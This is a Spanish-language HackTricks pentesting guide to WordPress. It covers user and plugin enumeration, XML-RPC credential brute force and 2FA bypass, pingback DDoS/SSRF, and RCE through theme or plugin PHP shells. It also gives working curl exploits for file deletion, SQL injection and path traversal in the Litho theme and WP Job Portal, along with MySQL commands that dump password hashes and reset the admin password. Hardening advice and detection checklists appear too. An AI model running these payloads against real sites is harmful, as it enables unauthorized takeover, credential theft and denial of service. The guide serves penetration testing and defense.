

# Wordpress

{{#include ../../banners/hacktricks-training.md}}

## Información Básica

- Los archivos **subidos** van a: `http://10.10.10.10/wp-content/uploads/2018/08/a.txt`
- Los archivos de **temas se pueden encontrar en /wp-content/themes/,** así que si cambias algún php del tema para obtener RCE probablemente usarás esa ruta. Por ejemplo: Usando **el tema twentytwelve** puedes **acceder** al archivo **404.php** en: [**/wp-content/themes/twentytwelve/404.php**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

- **Otra URL útil podría ser:** [**/wp-content/themes/default/404.php**](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

- En **wp-config.php** puedes encontrar la contraseña raíz de la base de datos.
- Rutas de inicio de sesión predeterminadas para verificar: _**/wp-login.php, /wp-login/, /wp-admin/, /wp-admin.php, /login/**_

### **Archivos Principales de WordPress**

- `index.php`
- `license.txt` contiene información útil como la versión de WordPress instalada.
- `wp-activate.php` se utiliza para el proceso de activación por correo electrónico al configurar un nuevo sitio de WordPress.
- Carpetas de inicio de sesión (pueden ser renombradas para ocultarlas):
- `/wp-admin/login.php`
- `/wp-admin/wp-login.php`
- `/login.php`
- `/wp-login.php`
- `xmlrpc.php` es un archivo que representa una característica de WordPress que permite que los datos se transmitan con HTTP actuando como el mecanismo de transporte y XML como el mecanismo de codificación. Este tipo de comunicación ha sido reemplazada por la [REST API](https://developer.wordpress.org/rest-api/reference) de WordPress.
- La carpeta `wp-content` es el directorio principal donde se almacenan los plugins y temas.
- `wp-content/uploads/` es el directorio donde se almacenan los archivos subidos a la plataforma.
- `wp-includes/` este es el directorio donde se almacenan los archivos principales, como certificados, fuentes, archivos JavaScript y widgets.
- `wp-sitemap.xml` en las versiones de WordPress 5.5 y superiores, WordPress genera un archivo XML de mapa del sitio con todas las publicaciones públicas y tipos de publicaciones y taxonomías consultables públicamente.

**Post explotación**

- El archivo `wp-config.php` contiene información requerida por WordPress para conectarse a la base de datos, como el nombre de la base de datos, el host de la base de datos, el nombre de usuario y la contraseña, claves de autenticación y sales, y el prefijo de la tabla de la base de datos. Este archivo de configuración también se puede usar para activar el modo DEBUG, lo que puede ser útil para la solución de problemas.

### Permisos de Usuarios

- **Administrador**
- **Editor**: Publica y gestiona sus propias publicaciones y las de otros
- **Autor**: Publica y gestiona sus propias publicaciones
- **Colaborador**: Escribe y gestiona sus publicaciones pero no puede publicarlas
- **Suscriptor**: Navega por las publicaciones y edita su perfil

## **Enumeración Pasiva**

### **Obtener la versión de WordPress**

Verifica si puedes encontrar los archivos `/license.txt` o `/readme.html`

Dentro del **código fuente** de la página (ejemplo de [https://wordpress.org/support/article/pages/](https://wordpress.org/support/article/pages/)):

- grep
```bash
curl https://victim.com/ | grep 'content="WordPress'
```
- `meta name`

.png>)

- Archivos de enlace CSS

.png>)

- Archivos JavaScript

.png>)

### Obtener Plugins
```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep -E 'wp-content/plugins/' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```
### Obtener Temas
```bash
curl -s -X GET https://wordpress.org/support/article/pages/ | grep -E 'wp-content/themes' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2
```
### Extraer versiones en general
```bash
curl -H 'Cache-Control: no-cache, no-store' -L -ik -s https://wordpress.org/support/article/pages/ | grep http | grep -E '?ver=' | sed -E 's,href=|src=,THIIIIS,g' | awk -F "THIIIIS" '{print $2}' | cut -d "'" -f2

```
## Enumeración activa

### Plugins y Temas

Probablemente no podrás encontrar todos los Plugins y Temas posibles. Para descubrirlos todos, necesitarás **forzar activamente una lista de Plugins y Temas** (esperemos que haya herramientas automatizadas que contengan estas listas).

### Usuarios

- **ID Brute:** Obtienes usuarios válidos de un sitio de WordPress forzando los IDs de los usuarios:
```bash
curl -s -I -X GET http://blog.example.com/?author=1
```
Si las respuestas son **200** o **30X**, eso significa que el id es **válido**. Si la respuesta es **400**, entonces el id es **inválido**.

- **wp-json:** También puedes intentar obtener información sobre los usuarios consultando:
```bash
curl http://blog.example.com/wp-json/wp/v2/users
```
Otro endpoint `/wp-json/` que puede revelar información sobre los usuarios es:
```bash
curl http://blog.example.com/wp-json/oembed/1.0/embed?url=POST-URL
```
Nota que este endpoint solo expone a los usuarios que han hecho una publicación. **Solo se proporcionará información sobre los usuarios que tienen esta función habilitada**.

También ten en cuenta que **/wp-json/wp/v2/pages** podría filtrar direcciones IP.

- **Enumeración de nombres de usuario de inicio de sesión**: Al iniciar sesión en **`/wp-login.php`**, el **mensaje** es **diferente** si el **nombre de usuario existe o no**.

### XML-RPC

Si `xml-rpc.php` está activo, puedes realizar un ataque de fuerza bruta de credenciales o usarlo para lanzar ataques DoS a otros recursos. (Puedes automatizar este proceso[ usando esto](https://github.com/relarizky/wpxploit) por ejemplo).

Para ver si está activo, intenta acceder a _**/xmlrpc.php**_ y envía esta solicitud:

**Verificar**
```html
<methodCall>
<methodName>system.listMethods</methodName>
<params></params>
</methodCall>
```


**Fuerza Bruta de Credenciales**

**`wp.getUserBlogs`**, **`wp.getCategories`** o **`metaWeblog.getUsersBlogs`** son algunos de los métodos que se pueden utilizar para realizar fuerza bruta de credenciales. Si puedes encontrar alguno de ellos, puedes enviar algo como:
```html
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>admin</value></param>
<param><value>pass</value></param>
</params>
</methodCall>
```
El mensaje _"Nombre de usuario o contraseña incorrectos"_ dentro de una respuesta con código 200 debería aparecer si las credenciales no son válidas.

 (2) (2) (2) (2) (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (2) (4) (1).png>)

.png>)

Usando las credenciales correctas, puedes subir un archivo. En la respuesta, el camino aparecerá ([https://gist.github.com/georgestephanis/5681982](https://gist.github.com/georgestephanis/5681982))
```html
<?xml version='1.0' encoding='utf-8'?>
<methodCall>
<methodName>wp.uploadFile</methodName>
<params>
<param><value><string>1</string></value></param>
<param><value><string>username</string></value></param>
<param><value><string>password</string></value></param>
<param>
<value>
<struct>
<member>
<name>name</name>
<value><string>filename.jpg</string></value>
</member>
<member>
<name>type</name>
<value><string>mime/type</string></value>
</member>
<member>
<name>bits</name>
<value><base64><![CDATA[---base64-encoded-data---]]></base64></value>
</member>
</struct>
</value>
</param>
</params>
</methodCall>
```
También hay una **manera más rápida** de realizar un ataque de fuerza bruta a las credenciales usando **`system.multicall`** ya que puedes probar varias credenciales en la misma solicitud:

<figure><figcaption></figcaption></figure>

**Bypass 2FA**

Este método está destinado a programas y no a humanos, y es antiguo, por lo tanto, no soporta 2FA. Así que, si tienes credenciales válidas pero la entrada principal está protegida por 2FA, **podrías abusar de xmlrpc.php para iniciar sesión con esas credenciales eludiendo 2FA**. Ten en cuenta que no podrás realizar todas las acciones que puedes hacer a través de la consola, pero aún podrías llegar a RCE como lo explica Ippsec en [https://www.youtube.com/watch?v=p8mIdm93mfw\&t=1130s](https://www.youtube.com/watch?v=p8mIdm93mfw&t=1130s)

**DDoS o escaneo de puertos**

Si puedes encontrar el método _**pingback.ping**_ dentro de la lista, puedes hacer que Wordpress envíe una solicitud arbitraria a cualquier host/puerto.\
Esto se puede usar para pedir a **miles** de **sitios** de Wordpress que **accedan** a una **ubicación** (por lo que se causa un **DDoS** en esa ubicación) o puedes usarlo para hacer que **Wordpress** lo **escanee** en alguna **red** interna (puedes indicar cualquier puerto).
```html
<methodCall>
<methodName>pingback.ping</methodName>
<params><param>
<value><string>http://<YOUR SERVER >:<port></string></value>
</param><param><value><string>http://<SOME VALID BLOG FROM THE SITE ></string>
</value></param></params>
</methodCall>
```


Si obtienes **faultCode** con un valor **mayor** que **0** (17), significa que el puerto está abierto.

Mira el uso de **`system.multicall`** en la sección anterior para aprender cómo abusar de este método para causar DDoS.

**DDoS**
```html
<methodCall>
<methodName>pingback.ping</methodName>
<params>
<param><value><string>http://target/</string></value></param>
<param><value><string>http://yoursite.com/and_some_valid_blog_post_url</string></value></param>
</params>
</methodCall>
```
.png>)

### wp-cron.php DoS

Este archivo generalmente existe en la raíz del sitio de Wordpress: **`/wp-cron.php`**\
Cuando este archivo es **accedido**, se realiza una **consulta** MySQL "**pesada**", por lo que podría ser utilizado por **atacantes** para **causar** un **DoS**.\
Además, por defecto, el `wp-cron.php` se llama en cada carga de página (cada vez que un cliente solicita cualquier página de Wordpress), lo que en sitios de alto tráfico puede causar problemas (DoS).

Se recomienda deshabilitar Wp-Cron y crear un cronjob real dentro del host que realice las acciones necesarias en un intervalo regular (sin causar problemas).

### /wp-json/oembed/1.0/proxy - SSRF

Intenta acceder a _https://worpress-site.com/wp-json/oembed/1.0/proxy?url=ybdk28vjsa9yirr7og2lukt10s6ju8.burpcollaborator.net_ y el sitio de Wordpress puede hacer una solicitud a ti.

Esta es la respuesta cuando no funciona:

.png>)

## SSRF

{{#ref}}
https://github.com/t0gu/quickpress/blob/master/core/requests.go
{{#endref}}

Esta herramienta verifica si el **methodName: pingback.ping** y para la ruta **/wp-json/oembed/1.0/proxy** y si existe, intenta explotarlos.

## Herramientas Automáticas
```bash
cmsmap -s http://www.domain.com -t 2 -a "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:69.0) Gecko/20100101 Firefox/69.0"
wpscan --rua -e ap,at,tt,cb,dbe,u,m --url http://www.domain.com [--plugins-detection aggressive] --api-token <API_TOKEN> --passwords /usr/share/wordlists/external/SecLists/Passwords/probable-v2-top1575.txt #Brute force found users and search for vulnerabilities using a free API token (up 50 searchs)
#You can try to bruteforce the admin user using wpscan with "-U admin"
```
## Obtener acceso sobrescribiendo un bit

Más que un ataque real, esto es una curiosidad. En el CTF [https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man](https://github.com/orangetw/My-CTF-Web-Challenges#one-bit-man) podrías cambiar 1 bit de cualquier archivo de wordpress. Así que podrías cambiar la posición `5389` del archivo `/var/www/html/wp-includes/user.php` para NOP la operación NOT (`!`).
```php
if ( ! wp_check_password( $password, $user->user_pass, $user->ID ) ) {
return new WP_Error(
```
## **Panel RCE**

**Modificando un php del tema utilizado (se necesitan credenciales de administrador)**

Apariencia → Editor de temas → Plantilla 404 (a la derecha)

Cambia el contenido por un shell php:

.png>)

Busca en internet cómo puedes acceder a esa página actualizada. En este caso, debes acceder aquí: [http://10.11.1.234/wp-content/themes/twentytwelve/404.php](http://10.11.1.234/wp-content/themes/twentytwelve/404.php)

### MSF

Puedes usar:
```bash
use exploit/unix/webapp/wp_admin_shell_upload
```
para obtener una sesión.

## Plugin RCE

### Plugin PHP

Puede ser posible subir archivos .php como un plugin.\
Crea tu puerta trasera en php usando, por ejemplo:

.png>)

Luego añade un nuevo plugin:

.png>)

Sube el plugin y presiona Instalar ahora:

.png>)

Haz clic en Proceder:

.png>)

Probablemente esto no hará nada aparentemente, pero si vas a Medios, verás tu shell subida:

.png>)

Accede a ella y verás la URL para ejecutar la shell inversa:

.png>)

### Subiendo y activando un plugin malicioso

Este método implica la instalación de un plugin malicioso conocido por ser vulnerable y puede ser explotado para obtener una web shell. Este proceso se lleva a cabo a través del panel de WordPress de la siguiente manera:

1. **Adquisición del Plugin**: El plugin se obtiene de una fuente como Exploit DB como [**aquí**](https://www.exploit-db.com/exploits/36374).
2. **Instalación del Plugin**:
- Navega al panel de WordPress, luego ve a `Panel > Plugins > Subir Plugin`.
- Sube el archivo zip del plugin descargado.
3. **Activación del Plugin**: Una vez que el plugin se instala correctamente, debe ser activado a través del panel.
4. **Explotación**:
- Con el plugin "reflex-gallery" instalado y activado, puede ser explotado ya que se sabe que es vulnerable.
- El marco de Metasploit proporciona un exploit para esta vulnerabilidad. Al cargar el módulo apropiado y ejecutar comandos específicos, se puede establecer una sesión de meterpreter, otorgando acceso no autorizado al sitio.
- Se señala que este es solo uno de los muchos métodos para explotar un sitio de WordPress.

El contenido incluye ayudas visuales que representan los pasos en el panel de WordPress para instalar y activar el plugin. Sin embargo, es importante señalar que explotar vulnerabilidades de esta manera es ilegal y poco ético sin la debida autorización. Esta información debe ser utilizada de manera responsable y solo en un contexto legal, como pruebas de penetración con permiso explícito.

**Para pasos más detallados consulta:** [**https://www.hackingarticles.in/wordpress-reverse-shell/**](https://www.hackingarticles.in/wordpress-reverse-shell/)

## De XSS a RCE

- [**WPXStrike**](https://github.com/nowak0x01/WPXStrike): _**WPXStrike**_ es un script diseñado para escalar una **vulnerabilidad de Cross-Site Scripting (XSS)** a **Ejecución Remota de Código (RCE)** u otras vulnerabilidades críticas en WordPress. Para más información consulta [**esta publicación**](https://nowak0x01.github.io/papers/76bc0832a8f682a7e0ed921627f85d1d.html). Proporciona **soporte para versiones de Wordpress 6.X.X, 5.X.X y 4.X.X y permite:**
- _**Escalado de Privilegios:**_ Crea un usuario en WordPress.
- _**(RCE) Subida de Plugin Personalizado (puerta trasera):**_ Sube tu plugin personalizado (puerta trasera) a WordPress.
- _**(RCE) Edición de Plugin Incorporado:**_ Edita un Plugin Incorporado en WordPress.
- _**(RCE) Edición de Tema Incorporado:**_ Edita un Tema Incorporado en WordPress.
- _**(Personalizado) Explotaciones Personalizadas:**_ Explotaciones Personalizadas para Plugins/Temas de Terceros de WordPress.

## Post Explotación

Extraer nombres de usuario y contraseñas:
```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;select concat_ws(':', user_login, user_pass) from wp_users;"
```
Cambiar la contraseña de administrador:
```bash
mysql -u <USERNAME> --password=<PASSWORD> -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"
```
## Wordpress Plugins Pentest

### Superficie de Ataque

Conocer cómo un plugin de Wordpress puede exponer funcionalidad es clave para encontrar vulnerabilidades en su funcionalidad. Puedes encontrar cómo un plugin podría exponer funcionalidad en los siguientes puntos y algunos ejemplos de plugins vulnerables en [**este blog post**](https://nowotarski.info/wordpress-nonce-authorization/).

- **`wp_ajax`**

Una de las formas en que un plugin puede exponer funciones a los usuarios es a través de manejadores AJAX. Estos podrían contener errores de lógica, autorización o autenticación. Además, es bastante frecuente que estas funciones basen tanto la autenticación como la autorización en la existencia de un nonce de Wordpress que **cualquier usuario autenticado en la instancia de Wordpress podría tener** (independientemente de su rol).

Estas son las funciones que se pueden usar para exponer una función en un plugin:
```php
add_action( 'wp_ajax_action_name', array(&$this, 'function_name'));
add_action( 'wp_ajax_nopriv_action_name', array(&$this, 'function_name'));
```
**El uso de `nopriv` hace que el endpoint sea accesible por cualquier usuario (incluso los no autenticados).**

> [!CAUTION]
> Además, si la función solo está verificando la autorización del usuario con la función `wp_verify_nonce`, esta función solo está comprobando que el usuario ha iniciado sesión, generalmente no está verificando el rol del usuario. Por lo tanto, los usuarios con bajos privilegios podrían tener acceso a acciones de altos privilegios.

- **REST API**

También es posible exponer funciones de WordPress registrando un REST AP utilizando la función `register_rest_route`:
```php
register_rest_route(
$this->namespace, '/get/', array(
'methods' => WP_REST_Server::READABLE,
'callback' => array($this, 'getData'),
'permission_callback' => '__return_true'
)
);
```
El `permission_callback` es una función de retorno que verifica si un usuario dado está autorizado para llamar al método de la API.

**Si se utiliza la función incorporada `__return_true`, simplemente se omitirá la verificación de permisos del usuario.**

- **Acceso directo al archivo php**

Por supuesto, Wordpress utiliza PHP y los archivos dentro de los plugins son accesibles directamente desde la web. Así que, en caso de que un plugin esté exponiendo alguna funcionalidad vulnerable que se activa simplemente accediendo al archivo, será explotable por cualquier usuario.

### Eliminación de Archivos Arbitrarios No Autenticada a través de wp_ajax_nopriv (Tema Litho <= 3.0)

Los temas y plugins de WordPress frecuentemente exponen controladores AJAX a través de los hooks `wp_ajax_` y `wp_ajax_nopriv_`. Cuando se utiliza la variante **_nopriv_**, **el callback se vuelve accesible para visitantes no autenticados**, por lo que cualquier acción sensible debe implementar además:

1. Una **verificación de capacidad** (por ejemplo, `current_user_can()` o al menos `is_user_logged_in()`), y
2. Un **nonce CSRF** validado con `check_ajax_referer()` / `wp_verify_nonce()`, y
3. **Saneamiento / validación estricta de entradas**.

El tema multipropósito Litho (< 3.1) olvidó esos 3 controles en la función *Eliminar Familia de Fuentes* y terminó enviando el siguiente código (simplificado):
```php
function litho_remove_font_family_action_data() {
if ( empty( $_POST['fontfamily'] ) ) {
return;
}
$fontfamily = str_replace( ' ', '-', $_POST['fontfamily'] );
$upload_dir = wp_upload_dir();
$srcdir  = untrailingslashit( wp_normalize_path( $upload_dir['basedir'] ) ) . '/litho-fonts/' . $fontfamily;
$filesystem = Litho_filesystem::init_filesystem();

if ( file_exists( $srcdir ) ) {
$filesystem->delete( $srcdir, FS_CHMOD_DIR );
}
die();
}
add_action( 'wp_ajax_litho_remove_font_family_action_data',        'litho_remove_font_family_action_data' );
add_action( 'wp_ajax_nopriv_litho_remove_font_family_action_data', 'litho_remove_font_family_action_data' );
```
Problemas introducidos por este fragmento:

* **Acceso no autenticado** – se registra el gancho `wp_ajax_nopriv_`.
* **Sin verificación de nonce / capacidad** – cualquier visitante puede acceder al endpoint.
* **Sin saneamiento de ruta** – la cadena `fontfamily` controlada por el usuario se concatena a una ruta del sistema de archivos sin filtrado, lo que permite la clásica travesía `../../`.

#### Explotación

Un atacante puede eliminar cualquier archivo o directorio **debajo del directorio base de uploads** (normalmente `<wp-root>/wp-content/uploads/`) enviando una única solicitud HTTP POST:
```bash
curl -X POST https://victim.com/wp-admin/admin-ajax.php \
-d 'action=litho_remove_font_family_action_data' \
-d 'fontfamily=../../../../wp-config.php'
```
Porque `wp-config.php` se encuentra fuera de *uploads*, cuatro secuencias de `../` son suficientes en una instalación por defecto. Eliminar `wp-config.php` obliga a WordPress a entrar en el *asistente de instalación* en la próxima visita, permitiendo una toma de control total del sitio (el atacante simplemente proporciona una nueva configuración de DB y crea un usuario administrador).

Otros objetivos impactantes incluyen archivos `.php` de plugins/temas (para romper plugins de seguridad) o reglas de `.htaccess`.

#### Lista de verificación de detección

* Cualquier callback `add_action( 'wp_ajax_nopriv_...')` que llame a ayudantes del sistema de archivos (`copy()`, `unlink()`, `$wp_filesystem->delete()`, etc.).
* Concatenación de entrada de usuario no sanitizada en rutas (busca `$_POST`, `$_GET`, `$_REQUEST`).
* Ausencia de `check_ajax_referer()` y `current_user_can()`/`is_user_logged_in()`.

#### Endurecimiento
```php
function secure_remove_font_family() {
if ( ! is_user_logged_in() ) {
wp_send_json_error( 'forbidden', 403 );
}
check_ajax_referer( 'litho_fonts_nonce' );

$fontfamily = sanitize_file_name( wp_unslash( $_POST['fontfamily'] ?? '' ) );
$srcdir = trailingslashit( wp_upload_dir()['basedir'] ) . 'litho-fonts/' . $fontfamily;

if ( ! str_starts_with( realpath( $srcdir ), realpath( wp_upload_dir()['basedir'] ) ) ) {
wp_send_json_error( 'invalid path', 400 );
}
// … proceed …
}
add_action( 'wp_ajax_litho_remove_font_family_action_data', 'secure_remove_font_family' );
//  🔒  NO wp_ajax_nopriv_ registration
```
> [!TIP]
> **Siempre** trata cualquier operación de escritura/borrado en el disco como privilegiada y verifica dos veces:
> • Autenticación  • Autorización  • Nonce  • Saneamiento de entrada  • Contención de ruta (por ejemplo, a través de `realpath()` más `str_starts_with()`).

---

## Protección de WordPress

### Actualizaciones Regulares

Asegúrate de que WordPress, los plugins y los temas estén actualizados. También confirma que la actualización automática esté habilitada en wp-config.php:
```bash
define( 'WP_AUTO_UPDATE_CORE', true );
add_filter( 'auto_update_plugin', '__return_true' );
add_filter( 'auto_update_theme', '__return_true' );
```
También, **instala solo plugins y temas de WordPress confiables**.

### Plugins de Seguridad

- [**Wordfence Security**](https://wordpress.org/plugins/wordfence/)
- [**Sucuri Security**](https://wordpress.org/plugins/sucuri-scanner/)
- [**iThemes Security**](https://wordpress.org/plugins/better-wp-security/)

### **Otras Recomendaciones**

- Elimina el usuario **admin** por defecto
- Usa **contraseñas fuertes** y **2FA**
- Revisa periódicamente los **permisos** de los usuarios
- **Limita los intentos de inicio de sesión** para prevenir ataques de Fuerza Bruta
- Renombra el archivo **`wp-admin.php`** y permite el acceso solo internamente o desde ciertas direcciones IP.

### Inyección SQL no autenticada a través de validación insuficiente (WP Job Portal <= 2.3.2)

El plugin de reclutamiento WP Job Portal expuso una tarea **savecategory** que finalmente ejecuta el siguiente código vulnerable dentro de `modules/category/model.php::validateFormData()`:
```php
$category  = WPJOBPORTALrequest::getVar('parentid');
$inquery   = ' ';
if ($category) {
$inquery .= " WHERE parentid = $category ";   // <-- direct concat ✗
}
$query  = "SELECT max(ordering)+1 AS maxordering FROM "
. wpjobportal::$_db->prefix . "wj_portal_categories " . $inquery; // executed later
```
Problemas introducidos por este fragmento:

1. **Entrada de usuario no sanitizada** – `parentid` proviene directamente de la solicitud HTTP.
2. **Concatenación de cadenas dentro de la cláusula WHERE** – sin `is_numeric()` / `esc_sql()` / declaración preparada.
3. **Accesibilidad no autenticada** – aunque la acción se ejecuta a través de `admin-post.php`, la única verificación en su lugar es un **nonce CSRF** (`wp_verify_nonce()`), que cualquier visitante puede recuperar de una página pública que incruste el shortcode `[wpjobportal_my_resumes]`.

#### Explotación

1. Obtén un nonce fresco:
```bash
curl -s https://victim.com/my-resumes/ | grep -oE 'name="_wpnonce" value="[a-f0-9]+' | cut -d'"' -f4
```
2. Inyecta SQL arbitrario abusando de `parentid`:
```bash
curl -X POST https://victim.com/wp-admin/admin-post.php \
-d 'task=savecategory' \
-d '_wpnonce=<nonce>' \
-d 'parentid=0 OR 1=1-- -' \
-d 'cat_title=pwn' -d 'id='
```
La respuesta revela el resultado de la consulta inyectada o altera la base de datos, demostrando SQLi.


### Descarga de Archivos Arbitrarios No Autenticada / Traversal de Ruta (WP Job Portal <= 2.3.2)

Otra tarea, **downloadcustomfile**, permitía a los visitantes descargar **cualquier archivo en disco** a través de traversal de ruta. El sumidero vulnerable se encuentra en `modules/customfield/model.php::downloadCustomUploadedFile()`:
```php
$file = $path . '/' . $file_name;
...
echo $wp_filesystem->get_contents($file); // raw file output
```
`$file_name` es controlado por el atacante y se concatena **sin sanitización**. Nuevamente, la única puerta es un **nonce CSRF** que se puede obtener de la página de currículum.

#### Explotación
```bash
curl -G https://victim.com/wp-admin/admin-post.php \
--data-urlencode 'task=downloadcustomfile' \
--data-urlencode '_wpnonce=<nonce>' \
--data-urlencode 'upload_for=resume' \
--data-urlencode 'entity_id=1' \
--data-urlencode 'file_name=../../../wp-config.php'
```
El servidor responde con el contenido de `wp-config.php`, filtrando las credenciales de la base de datos y las claves de autenticación.

## Referencias

- [Vulnerabilidad de Eliminación de Archivos Arbitrarios No Autenticada en el Tema Litho](https://patchstack.com/articles/unauthenticated-arbitrary-file-delete-vulnerability-in-litho-the/)
- [Múltiples Vulnerabilidades Críticas Corregidas en el Plugin WP Job Portal](https://patchstack.com/articles/multiple-critical-vulnerabilities-patched-in-wp-job-portal-plugin/)

{{#include ../../banners/hacktricks-training.md}}
